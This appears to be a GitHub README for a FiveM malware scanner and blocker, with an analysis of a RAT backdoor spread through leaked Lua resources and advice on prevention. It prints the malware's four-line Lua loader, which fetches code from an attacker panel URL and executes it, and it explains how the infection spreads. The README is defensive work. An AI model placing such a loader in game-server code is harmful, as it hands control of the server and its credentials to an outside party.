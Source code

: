 - MalScanner.bat aims to check all of your servers resources for Malware.
- NetworkBlock.bat aims to block malware-serving domain names, which are contacted when the infected resource is run.

Run these two batch files on your server as Administrator. Use source comparison to remove infected code from detected .lua files. 
- **MalScanner.bat must be put inside your resources directory. Simply right click and run as Administrator once.**

# About
This is a specific study into a common pay-hack providers methodology.
Credit goes to the specific individuals which devoted a lot of time to discover this growing problem on FiveM, their identities are redacted.

# Analysis
Most FiveM malware is formed around Remote Execution/Administration Tool (RAT). 4 lines of Lua code are written into resources (many of them obfuscate the code) which will download remote code from the external servers. We've found many leaked resources are infected with this type of malware. This repository will talk more about how it works works.

# How it works
It works by individuals releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://malware-panel.io/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the malware user that now has control of your server. Once this code is run it downloads the remote code and runs it on line 4 as a function.

This is the basis on how most malware works. It proceeds to download several more requests and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the FiveM server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step. The MalScanner batch file in this repository aims to show you exactly where the infected code is.


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by malware

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. Warden is a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like Cipher. 

Make sure to install the latest updates of whatever framework you are using for 

[ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org)

[QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the Warden discord. These people are great for pointing you to good, honest resource creators.

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… **DON'T USE LEAKED RESOURCES!**
